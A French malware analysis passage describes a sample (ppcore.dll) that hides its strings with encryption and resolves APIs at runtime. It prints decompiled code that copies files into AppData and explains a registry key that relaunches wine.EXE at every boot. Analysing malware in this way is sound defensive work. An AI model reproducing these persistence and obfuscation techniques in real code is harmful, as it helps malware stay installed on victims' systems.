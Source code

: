 - Tout d'abord, à l'aide de `GetEncryptedDataOf`, le code récupère la chaîne de caractères chiffrée représentant le nom d'une fonction, d'une librairie (DLL) ou d'une chaîne de caractères classique (chemin, agent utilisateur, type de requête, ...) et la sauvegarde dans une variable. 
- Ensuite, il utilise `GetDecrypted`/`DecryptData` pour déchiffrer la chaîne de caractères récupérée.
- Résous l'API ciblée avec `ResolveFunction`, (nom de la librairie + nom de la fonction), puis appelle la fonction.
- Enfin, le code va effacer la mémoire après l'utilisation de ces chaînes de caractères.

Offuscation facile à contourner à l'aide de la trace, vu qu'il suffit de regarder le retour de la fonction `GetDecrypted`/`DecryptData` afin de comprendre ce qui a été retrouvé.

### Persistance

`ppcore.dll` va assurer la persistance au sein du système à l'aide de la fonction `InstallPersistenceRegKey`. Cette fonction va commencer par copier le contenu de l'archive dans un dossier créé au chemin suivant `C:\Users\User\AppData\Local\` :

```c
/* Création du dossier */
void* name_CreateDirectoryW = GetDecryptedData(EncryptedNameOf_CreateDirectoryW);
void var_5b1;
void var_5b0;
int64_t r9_7 = GetEncryptedDataOf_kernel32_bis(&var_5b1, &var_5b0);
void* name_kernel32;
int64_t r8_8;
name_kernel32 = DecryptData_2(&var_5b0);
ResolveFunction(name_kernel32, name_CreateDirectoryW, r8_8, r9_7)(&path, 0);

...

/**
 * Copie des fichiers / Ce code se répète trois fois.
 * Une pour chaque fichier dans l'archive :
 *  - ppcore.dll
 *  - AppvIsvSubSystems64dll
 *  - wine.EXE
 */
GetEncryptedDataOf_CopyFileW_2(&var_c09, &EncryptedNameOf_CopyFile);
void* name_CopyFileW = GetDecrypted_CopyFileW(EncryptedNameOf_CopyFileW);
void var_c39;
void var_c38;
int64_t r9_17 = GetEncryptedDataOf_kernel32_quad(&var_c39, &EncryptedNameOf_kernel32);
void* name_kernel32;
int64_t r8_27;
name_kernel32 = DecryptData_2(&EncryptedNameOf_kernel32);
int64_t r8_28;
int64_t r9_18;
r8_28 = ResolveFunction(name_kernel32, name_CopyFileW, r8_27, r9_17)(&src, &dest, 0);
```

Une fois ces fichiers copiés, le code va créer une clef de registre (RegKey) et lui attribuer le chemin vers `wine.EXE` afin qu'à chaque redémarrage, l'exécutable se lance. Voici le code :
